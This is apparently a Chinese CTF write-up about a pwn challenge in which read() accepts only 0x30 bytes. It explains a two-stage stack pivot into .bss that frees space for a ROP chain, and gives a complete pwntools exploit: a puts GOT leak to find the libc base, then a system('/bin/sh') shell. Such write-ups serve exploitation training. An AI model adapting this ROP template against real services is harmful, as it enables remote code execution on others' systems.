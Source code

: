 于是我们来看题，vuln函数如下：return read(0,buf,0x30uLL);

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-35-1024x233.png" alt="img" style="zoom:67%;" />

这道题的难点主要在read只读入0x30字节

按照正常泄露地址的流程：

payload = next_rbp + pop_rdi_ret + puts_got + puts_plt + read_addr + bss-0x20 + leave_ret一共会有0x38个字节。

经过网上信息检索和出题人的提示，原来这题可以通过往上迁移八字节来写入

我们可以多构造一次read函数来栈迁移，这次栈迁移的效果主要是将read计算的buf往上抬8字节，如下

***(bss_fake_stcak+8)+ read_addr + ret + ret + bss-0x20 + leave_ret\***

这样，rbp会被迁移到bss_fake_stack+8,而下次读入的&buf2 = &buf1 + 8，我们输入的第一个字长会在之前的read_addr处！

也就是说我们可以不传入bss_fake_stack(也就是板子里的next_rbp,这样就可以少写一个字长

所以我们可以给出代码！！！

```
from pwn import *
io = process('./pwn')
#io = remote('47.97.58.52',43001)
elf = ELF('./pwn')
libc = ELF('libc.so.6')
context(os = 'linux',arch ='amd64',log_level = 'debug')
puts_got = 0x404018
puts_plt = 0x401070
leave_ret = 0x401234
pop_rdi = 0x4012c3
ret = 0x40101a
bss = 0x404800
read = 0x40121D
payload = b'a'*0x20 + p64(bss) + p64(read)
gdb.attach(io)
pause()
io.sendafter(b'but not stack ~\n',payload)
payload1 = p64(bss+0x8) + p64(read) + p64(0)*2+ p64(bss-0x20) + p64(leave_ret)
io.send(payload1)
payload2 =p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +p64(read) + p64(bss-0x20) + p64(leave_ret)
io.send(payload2)
k = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
print(hex(k))
libc_base = k - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + next(libc.search(b"/bin/sh\x00"))
payload3 = p64(ret)*3 + p64(pop_rdi) + p64(bin_addr)  + p64(sys_addr)
io.send(payload3)
io.interactive()
```

经过gdb调试，发现最后rsp在0x404800(我也不清楚为什么）,所以payload3需要填充3个ret ,所以多次栈迁移真的十分依赖gdb的调试。
